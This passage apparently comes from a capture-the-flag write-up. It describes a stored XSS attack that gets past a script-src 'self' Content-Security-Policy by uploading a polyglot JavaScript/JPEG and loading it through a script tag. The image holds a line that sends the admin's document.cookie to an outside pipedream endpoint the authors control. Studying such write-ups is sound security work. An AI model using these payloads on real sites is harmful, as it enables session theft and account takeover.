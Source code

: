 However, the content entered into the "Message" field is not filtered, allowing the inclusion of scripts and malicious code.

Attempting to store a message with the following content:

```javascript
<script>alert(1);</script>
```

and inspecting it through the provided link reveals that the code is not executed.

This is due to the presence of the <code>Content-Security-Policy: script-src "self"</code> header in the response, preventing the execution of inline scripts. To bypass this mitigation, we leverage the image upload functionality to load a JPEG file containing JavaScript code (Polyglot JavaScript/JPEG), (***Polyglot JavaScript/JPEG***), as detailed [here](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs).

Using the hexadecimal editor **GHex**, we create the _'xss.jpg'_ image containing the following JS code:

```javascript
location.href="https://en6dm14fuwglk.x.pipedream.net/"+document.cookie
```

This allows us to retrieve the admin's cookie (https://en6dm14fuwglk.x.pipedream.net/ is an endpoint controlled directly by us, generated with **requestbin**).

Next, we upload a message with the _'xss.jpg'_. image. It is stored on the server with the path _/uploads/&lt;id&gt;_. This step enables us to upload the file with the required code. The last step is to invoke it.

We load a new message, this time inserting the following JS code into the "Message" field:

```javascript
<script charset="ISO-8859-1" src="/uploads/<id>"></script>
```

Done!\
When the admin opens this message, the code embedded in the image is invoked, and their session cookie is sent to our endpoint.

After obtaining the admin's session and accessing their profile, we discover a new "Edit Map" feature utilizing the XML language.
